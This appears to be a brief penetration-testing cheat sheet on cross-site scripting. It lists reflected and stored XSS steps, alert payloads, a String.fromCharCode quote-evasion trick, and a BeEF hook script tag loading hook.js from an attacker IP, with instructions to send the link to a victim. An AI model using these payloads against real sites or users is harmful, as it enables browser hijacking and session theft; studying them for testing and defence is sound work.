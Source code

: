 ### Reflected XSS
* Try to insert some javascript in input fields
* Copy URL and send it to the victim

### Stored XSS
* Javascript gets copied to the site or DB

### XSS
* Try to insert some javascript code:
  ```html
  <script>alert('<code>');</script>
  ```
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* To avoid using **'** and **"**, use the **String.fromCharCode()** function
  ```html
  <script>alert(String.fromCharCode(<charASCII>,<charASCII>,...));</script>
  ```
* Use BEEF (beef:beef)
  * Use the following javascript code
    ```html
    <script src="<IP>:3000/hook.js"></script>
    ```
  * Send URL with javascript code to the victim
  * When victim opens url, youll get a session in BEEF
